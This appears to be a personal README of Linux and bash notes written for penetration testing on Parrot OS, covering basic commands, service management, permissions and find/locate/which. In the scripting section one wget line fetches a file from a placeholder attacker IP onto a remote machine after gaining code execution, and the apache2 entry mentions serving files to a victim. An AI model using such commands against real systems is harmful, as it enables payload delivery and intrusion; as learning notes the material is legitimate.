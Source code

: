 # Bash
Now I know some of these arent bash,  but if it runs in the commandline, on most linux systems, and useful, I'll throw it here.


Table

1. Basic commands

2. Complex commands

3. Command cheatsheet

4. [Introduction to bash scripting](#bash_scripting)
5. Dirty knowledge ;)




### Basic commands for interacting with linux

**cd** - Change Directory

**ls** - List Selection

**file** - determine filetype

**mkdir** - Make Directory

**touch** - create a file

**mv** - move the file

**cp** - copy and paste a file

**pwd** - print working directory


### Complex commands

**tree** - creates a kind of map

**ifconfig** - displays cnetwork interfaces, can be used to do some configurations

**passwd** - changes password

**systemctl** - gives control over **systemd**, which is the system and service manager for linux. When run as first process on boot (as PID 1), it acts as init system that brings up and maintains userspace services.

**grep** - "global regular expression print", processes text line by line and prints any lines which match a specified pattern.

**netstat** - prints information about the \*nix networking subsystem

**apache2** - The HTTP service can come in handy during a penetration test, either for hosting a site,
or providing a platform for downloading files to a victim machine.

**chmod** - modify file permissions

**wget** - retrieves files using internet protocols, noninteractive

### Command cheatsheet


**Create sudo user**
~~~
uname@box~# adduser username
uname@box~# usermod -aG sudo username
uname@box~# su - username
~~~

**Start a service**
In this case it's apache2
~~~
┌─[ganymede@parrot]─[~]
└──╼ $sudo systemctl start apach2
~~~

**Verify a running process**

In this case it's ssh. If you're sexually insecure, don't worry, the "D" only means Damon.
~~~
┌─[✗]─[ganymede@parrot]─[~]
└──╼ $sudo netstat -antp|grep sshd
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      19438/sshd          
tcp6       0      0 :::22                   :::*                    LISTEN      19438/sshd
~~~


**Start SSH services automatically at boot time**
~~~
┌─[✗]─[ganymede@parrot]─[~]
└──╼ $sudo systemctl enable ssh
[sudo] password for ganymede: 
\Synchronizing state of ssh.service with SysV service script with /lib/systemd/systemd-sysv-install.
Executing: /lib/systemd/systemd-sysv-install enable ssh
insserv: warning: current start runlevel(s) (empty) of script `ssh' overrides LSB defaults (2 3 4 5).
insserv: warning: current stop runlevel(s) (2 3 4 5) of script `ssh' overrides LSB defaults (empty).
~~~

**View file permissions(and then change them)**
~~~
 ┌─[ganymede@parrot]─[~/Downloads]
└──╼ $ls -als ./ida*
45956 -rw-r--r-- 1 ganymede ganymede 47056982 Jul 20 01:32 ./idafree70_linux.run
┌─[✗]─[ganymede@parrot]─[~/Downloads]
└──╼ $chmod 755 idafree70_linux.run
┌─[ganymede@parrot]─[~/Downloads]
└──╼ $ls -als ./ida*
45956 -rwxr-xr-x 1 ganymede ganymede 47056982 Jul 20 01:32 ./idafree70_linux.run
~~~

**Bring your internet up, assign it an IP address**
~~~
ifconfig eth0 up 192.168.1.34
~~~

Intro to Bash Scripting
-

To start we'll find the 
 - subdomains of an index page
 - ipaddress of those sub domains
 
We'll use the  [Microshaft index page](https://www.microsoft.com/) for this example and start by downloading the page.
~~~
wget https://www.microsoft.com/
~~~
wget can also be use to serve files out bound for example, we'll use the default python server to make a directory an http server
~~~
python -m SimpleHTTPServer
~~~ 

and if we have code execution remotely, we can run something like

~~~
wget $attacking_Machine_IP:port/direcory -O /remoteDirectory/placingThe/filHere
~~~




















Dirty knowledge ;)
-

### Systemctl

Some useful unit commands for **systemctl** 
 - **start** - start a unit or multiple instances
 - **stop** - stop a unit or multiple instances
 - **status** - Show runtime status information about one or more units
 - **kill** - Send a signal to one or more processes of the unit
 - **restart** - Restart one or more units specified on the command line
 
Some useful unit file commands for **systemctl**, my understanding is that these types of commands will modify files and the previous are only session specific.
- **enable** - This will create a number of symlinks as encoded in the "[Install]" sections of the unit files. 
- **disable** - This removes all symlinks to the specified unit files from the unit configuration directory, and hence undoes the changes made by enable.

 You can always read more here https://www.commandlinux.com/man-page/man1/systemctl.1.html and I highly reccomend reading a little of this https://docs.fedoraproject.org/quick-docs/en-US/understanding-and-administering-systemd.html is definitely worthwhile.

### Find, Locate, and Which
Knowing the difference between find, locate, and which.


Prior to using the **locate** command, we must build a local database of **all files** on the file system before using it.
~~~
┌─[✗]─[ganymede@parrot]─[~]
└──╼ $sudo updatedb
[sudo] password for ganymede: 
┌─[ganymede@parrot]─[~]
└──╼ $locate svc.exe
/usr/share/metasploit-framework/data/meterpreter/metsvc.exe
/usr/share/metasploit-framework/data/templates/template_x64_windows_svc.exe
/usr/share/metasploit-framework/data/templates/template_x86_windows_svc.exe
/usr/share/responder/tools/MultiRelay/bin/Syssvc.exe
~~~

The **which** command only searches through directories that are defined in the *$PATH* environment variable for a  given filename. If a  match is found, which returns the full path to the file. Since svc 

~~~
┌─[ganymede@parrot]─[~]
└──╼ $which svc
┌─[✗]─[ganymede@parrot]─[~]
└──╼ $which sh
/bin/sh
~~~

The **find** command is more aggressive than either than locate or which, allowing you to recursively search a given path for various files. 
Due to the size of this example I had to collapse it.


<details><summary>Details</summary><p>
   
~~~
┌─[✗]─[ganymede@parrot]─[~]
└──╼ $sudo find / -name svc*
/usr/include/rpc/svc_auth.h
/usr/include/rpc/svc.h
/usr/lib/python2.7/dist-packages/samba/dcerpc/svcctl.x86_64-linux-gnu.so
/usr/lib/python2.7/dist-packages/volatility/plugins/malware/svcscan.py
/usr/lib/x86_64-linux-gnu/wine/svchost.exe.so
/usr/lib/x86_64-linux-gnu/wine/fakedlls/svchost.exe
/usr/bin/svcrack
/usr/bin/svcrash
/usr/share/bash-completion/completions/svcadm
/usr/share/regripper/plugins/svcdll.pl
/usr/share/regripper/plugins/svc.pl
/usr/share/regripper/plugins/svchost.pl
/usr/share/regripper/plugins/svc_plus.pl
/usr/share/regripper/plugins/svc2.pl
/usr/share/metasploit-framework/lib/rex/proto/dcerpc/svcctl.rb
/usr/share/metasploit-framework/lib/rex/proto/dcerpc/svcctl
/usr/share/man/man3/svcerr_auth.3.gz
/usr/share/man/man3/svc_freeargs.3.gz
/usr/share/man/man3/svcfd_create.3.gz
/usr/share/man/man3/svc_sendreply.3.gz
/usr/share/man/man3/svc_getreqset.3.gz
/usr/share/man/man3/svc_getargs.3.gz
/usr/share/man/man3/svcerr_progvers.3.gz
/usr/share/man/man3/svcerr_noprog.3.gz
/usr/share/man/man3/svctcp_create.3.gz
/usr/share/man/man3/svc_getcaller.3.gz
/usr/share/man/man3/svcerr_systemerr.3.gz
/usr/share/man/man3/svcerr_decode.3.gz
/usr/share/man/man3/svcerr_weakauth.3.gz
/usr/share/man/man3/svcerr_noproc.3.gz
/usr/share/man/man3/svcudp_create.3.gz
/usr/share/man/man3/svc_unregister.3.gz
/usr/share/man/man3/svc_register.3.gz
/usr/share/man/man3/svc_run.3.gz
/usr/share/man/man3/svc_getreq.3.gz
/usr/share/man/man3/svcudp_bufcreate.3.gz
/usr/share/man/man3/svc_destroy.3.gz
/usr/share/man/man3/svcraw_create.3.gz
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svc_xprt.h
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svc.h
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svcauth.h
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svc_rdma.h
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svcauth_gss.h
/usr/src/linux-headers-4.14.0-parrot13-common/include/linux/sunrpc/svcsock.h
~~~
</p></details>
